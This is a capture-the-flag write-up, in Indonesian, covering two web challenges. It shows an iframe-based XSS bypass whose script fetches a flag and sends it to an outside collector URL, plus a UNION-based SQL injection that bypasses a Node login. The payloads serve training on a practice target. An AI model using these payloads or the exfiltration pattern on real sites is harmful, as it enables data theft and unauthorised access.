 # Spiteful XSS - Web
## Description
Everyone keeps exploiting my site, so I deleted all the globals.

## Solve
Pada challenge ini kita akan diberikan website sebagai berikut.
https://spiteful-xss.acmcyber.com/

![](https://i.imgur.com/PJ2vGU9.png)

Website ini vulnerable dengan XSS, tetapi hampir semua builtins function tidak ada yang bisa dipakai.

Saat kita melihat dibagian atas html kita akan melihat script dibawah ini, yang dimana script ini menghapus semua global variable, sehingga kita tidak bisa melakukan XSS.

```html 
<script>
        for (const k in Object.getOwnPropertyDescriptors(window)) {
            delete window[k];
        }
</script>
```

Bagaimana cara membypassnya.

Disini kita bisa menggunakan `iframe`, iframe akan membuat DOM baru dimana disitu kita bisa menggunakan fungsi fungsi builtins yang ada.

Payload XSS:
```html 
<iframe srcdoc="
<script>
    alert(1)
</script>
"></iframe>
```

![](https://i.imgur.com/aA6T8wy.png)


Get flag:
```html 
<iframe srcdoc="
<script>
    fetch('/flag').then(a=>a.text()).then(a=>fetch('https://xxxxxxxx.m.pipedream.net?'+a))
</script>
"></iframe>
```

![](https://i.imgur.com/2vhONLG.png)

# Injection Perfection - Web
## Description
After port scanning the acmcyber site, I found this hidden login page. After bruteforcing I discovered the user: joe, has the password: bruin, but I didn't find anything useful. Can you log in as admin? 

## Solve
Pada source code kita akan melihat endpoint yang vulnerable dengan SQL Injection.

```node 
const attemptLogin = (username, password) => {
	return new Promise((resolve, reject) => {
		db.get(`SELECT username, password FROM users WHERE username='${username}'`, async (err, row) => {
			if (err)
				return reject(err);
			else if (row === undefined)
				return reject('Invalid User');
			else if (password === row.password)
				return resolve(`My favorite color is ${await getFavColor(row.username)}`);
			else
				return reject('incorrect password');
		});
	})
};
...snip..
app.post('/', async (req, res) => {
	const username = req.body.username;
	const password = req.body.password;

	if (!username || !password)
		return res.status(400).send("Invalid Login");
	
	try {
		return res.status(200).send(await attemptLogin(username, password));
	} catch (err) {
		return res.status(400).send(err);
	}
});
```

Pada endpoint tersebut kita bisa mengirimkan post request yang berisi UNION based SQLI seperti berikut untuk membypass authentifikasi.

```
username='UNION/**/SELECT/**/"admin",'asd&password=asd
```

Setelah itu kita akan mendapatkan flagnya di response content.

# Our Team Writeup

Daffainfo: https://github.com/daffainfo/ctf-writeup/tree/main/CTF%20After%20Dark%20-%20Winter%202023

| Category | Challenge
| --- | --- |
| Intro | Cookies
| Intro | Secure Platform
| Intro | Bagels
| SQLi | Bank
| SQLi | SQL Prevention-101
| LFI | Star Poet Blog

RisyadAR: https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/

- Website
	-    [Birthday](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/Birthday/)
	-    [Mean Girls](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/Mean%20Girls/)
	-    [What's on the Menu?](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/What's%20on%20the%20Menu%3F/)
	-    [Simple Calculator](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/Simple%20Calculator/)
	-    [No Fetch?!?!](https://rizsyad.github.io/CTF-WriteUp/#/2023/After%20Dark%20Winter/Web/No%20Fetch%3F!%3F!/)

# etc

CTF source code: https://github.com/uclaacm/ctf-after-dark-w23